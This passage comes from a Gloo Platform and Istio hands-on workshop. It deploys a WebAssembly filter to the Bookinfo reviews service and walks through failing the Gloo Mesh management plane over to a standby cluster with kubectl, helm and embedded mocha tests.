mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

### Deploy

It's now time to deploy a Wasm filter on Istio !

Gloo Platform has a `WasmDeploymentPolicy` CRD (Custom Resource Definition) for that purpose.

To deploy your Wasm filter on all the Pods corresponding to the version v1 of the reviews service and running in the bookinfo-backends namespace of the cluster1 cluster, use the following commands:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends patch deployment reviews-v1 --patch='{"spec":{"template": {"metadata": {"annotations": {"sidecar.istio.io/bootstrapOverride": "gloo-mesh-custom-envoy-bootstrap"}}}}}' --type=merge

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: extensions.policy.gloo.solo.io/v2
kind: WasmDeploymentPolicy
metadata:
  name: reviews-wasm
  namespace: bookinfo-backends
spec:
  applyToWorkloads:
  - selector:
      cluster: cluster1
      labels:
        app: reviews
        version: v1
      namespace: bookinfo-backends
  config:
    filters:
    - filterContext: SIDECAR_INBOUND
      wasmImageSource:
        wasmImageTag: webassemblyhub.io/djannot/myfilter:0.2
      staticFilterConfig:
        '@type': type.googleapis.com/google.protobuf.StringValue
        value: "Gloo Mesh Enterprise"

EOF
```

Let's send a request from the `productpage` service to the `reviews` service:

```
kubectl --context $CLUSTER1 -n bookinfo-frontends exec -it $(kubectl --context $CLUSTER1 -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.get('http://reviews.bookinfo-backends:9080/reviews/0'); print(r.headers)"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Get WasmDeployment log traces", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://reviews.bookinfo-backends:9080/reviews/0'); print(r.headers)\"";
  const searches = ["hello", "Gloo Mesh Enterprise"];
  searches.forEach(search => {
    it('Got the new header "' + search + '"', () => helpers.genericCommand({ command: command, responseContains: search }));
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/web-assembly/tests/check-logs.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should get either:

```,nocopy
{'x-powered-by': 'Servlet/3.1', 'content-type': 'application/json', 'date': 'Tue, 15 Dec 2020 08:23:24 GMT', 'content-language': 'en-US', 'content-length': '295', 'x-envoy-upstream-service-time': '10', 'server': 'envoy'}
```

or:

```,nocopy
{'x-powered-by': 'Servlet/3.1', 'content-type': 'application/json', 'date': 'Tue, 15 Dec 2020 08:23:25 GMT', 'content-language': 'en-US', 'content-length': '295', 'x-envoy-upstream-service-time': '17', 'hello': 'Gloo Mesh Enterprise Beta', 'server': 'envoy'}
```

We have deployed the Istio Bookinfo application with the versions `v1` and `v2` of the `reviews` service, so the new header is added half of the time.


Delete the WasmDeploymentPolicy:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends delete wasmdeploymentpolicy reviews-wasm
```


## Lab 29 - Gloo Mesh Management Plane failover <a name="lab-29---gloo-mesh-management-plane-failover-"></a>


Before we start the failover procedure, let's capture the current output snapshot:

```bash
pod=$(kubectl --context ${MGMT} -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${MGMT} -n gloo-mesh debug -q -i ${pod} --image=curlimages/curl -- curl -s http://localhost:9091/snapshots/output > output
```

We can use it later to check the translation produces the same output on the new management plane.

Also, let's find what's the last `resourceVersion` of all the Istio objects on `cluster1`:

```bash
kubectl --context ${CLUSTER1} get gw,vs,dr,se,we,envoyfilters -A -o json | jq -r '.items[].metadata.resourceVersion' | sort -u | tail -1 > last
```

We can use it later to check the failover hasn't impacted the Istio configuration (no objects have been modified).
We're going to deploy a new Kubernetes cluster to host the standby Gloo Platform management plane:

```bash
./scripts/deploy-aws.sh 4 mgmt2
```

Then, run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh mgmt2
```

We also need to create a new environment variable:
```bash
export MGMT2=mgmt2
```

Copy the relay secrets used by the previous management plane to the new one:

```bash
kubectl --context ${MGMT2} create ns gloo-mesh
kubectl --context ${MGMT} -n gloo-mesh get secret relay-identity-token-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get secret relay-root-tls-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get secret relay-server-tls-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get secret relay-tls-signing-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

After that, we can deploy Gloo Platform on this cluster.

Run the following commands to deploy the Gloo Platform management plane (and scale it down):

```bash
helm repo add gloo-platform https://storage.googleapis.com/gloo-platform/helm-charts
helm repo update
kubectl --context ${MGMT2} create ns gloo-mesh
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds \
--namespace gloo-mesh \
--kube-context ${MGMT2} \
--version=2.4.2
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
--namespace gloo-mesh \
--kube-context ${MGMT2} \
--version=2.4.2 \
 -f -<<EOF
licensing:
  licenseKey: ${GLOO_MESH_LICENSE_KEY}
common:
  cluster: mgmt
glooMgmtServer:
  enabled: true
  ports:
    healthcheck: 8091
prometheus:
  enabled: true
redis:
  deployment:
    enabled: true
telemetryGateway:
  enabled: true
  service:
    type: LoadBalancer
glooUi:
  enabled: true
  serviceType: LoadBalancer
EOF
kubectl --context ${MGMT2} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server

kubectl --context ${MGMT2} -n gloo-mesh scale deploy/gloo-mesh-mgmt-server --replicas=0
```

Finally, you need to specify which gateways you want to use for cross cluster traffic:

```bash
cat <<EOF | kubectl --context ${MGMT2} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: global
  namespace: gloo-mesh
spec:
  options:
    eastWestGateways:
      - selector:
          labels:
            istio: eastwestgateway
EOF
```

Copy the `KubernetesCluster` objects from the previous management plane to the new one:

```bash
kubectl --context ${MGMT} -n gloo-mesh get KubernetesCluster cluster1 -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get KubernetesCluster cluster2 -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

Copy the secret containing the root CA certificate used by the previous management plane to the new one:

```bash
kubectl --context ${MGMT} -n gloo-mesh get secret root-trust-policy.gloo-mesh -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

Copy the `IstioLifecycleManager` and `GatewayLifecycleManager` objects from the previous management plane to the new one:

```bash
kubectl --context ${MGMT} -n gloo-mesh get IstioLifecycleManager cluster1-installation -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get IstioLifecycleManager cluster2-installation -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster1-ingress -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster1-eastwest -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster2-ingress -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster2-eastwest -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

Create the following `RootTrustPolicy` object which will create the new `cacerts` secret using the previous root CA certificate.

```bash
cat << EOF | kubectl --context ${MGMT2} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: RootTrustPolicy
metadata:
  name: root-trust-policy
  namespace: gloo-mesh
spec:
  config:
    mgmtServerCa:
      secretRef:
        name: root-trust-policy.gloo-mesh
        namespace: gloo-mesh
    autoRestartPods: false
EOF
```

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT2} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
  - name: cluster2
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT2} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT2} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, you need to set the environment variable to tell the Gloo Platform agents how to communicate with the management plane:

```bash
export ENDPOINT_GLOO_MESH=$(kubectl --context ${MGMT2} -n gloo-mesh get svc gloo-mesh-mgmt-server -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9900
export HOST_GLOO_MESH=$(echo ${ENDPOINT_GLOO_MESH%:*})
export ENDPOINT_TELEMETRY_GATEWAY=$(kubectl --context ${MGMT2} -n gloo-mesh get svc gloo-telemetry-gateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):4317
```

Now, let's update the agents to use the new management plane.

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster1
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF
kubectl --context ${CLUSTER1} create ns gloo-mesh
kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER1} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER1} --from-file token=token
rm token
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds  \
--namespace=gloo-mesh \
--kube-context=${CLUSTER1} \
--version=2.4.2
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
  --namespace=gloo-mesh \
  --kube-context=${CLUSTER1} \
  --version=2.4.2 \
 -f -<<EOF
common:
  cluster: cluster1
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF

kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster2
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF
kubectl --context ${CLUSTER2} create ns gloo-mesh
kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER2} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER2} --from-file token=token
rm token
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds  \
--namespace=gloo-mesh \
--kube-context=${CLUSTER2} \
--version=2.4.2
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
  --namespace=gloo-mesh \
  --kube-context=${CLUSTER2} \
  --version=2.4.2 \
 -f -<<EOF
common:
  cluster: cluster2
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF
```

Let's scale up the management plane:

```bash
kubectl --context ${MGMT2} -n gloo-mesh scale deploy/gloo-mesh-mgmt-server --replicas=1
```

And update the variables to use the new management plane from now on:

```bash
export MGMT=${MGMT2}
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("failover has no impact", () => {
  it("Istio objects haven't been modified", () => {
    let cli = chaiExec(`bash -c "kubectl --context ${process.env.CLUSTER1} get gw,vs,dr,se,we,envoyfilters -A -o json | jq -r '.items[].metadata.resourceVersion' | sort -u | tail -1"`);
    let last = chaiExec("cat last");

    expect(cli).to.exit.with.code(0);
    expect(cli).stdout.to.contain(last.stdout);
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/gloo-mesh-mgmt-failover/tests/failover-has-no-impact.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


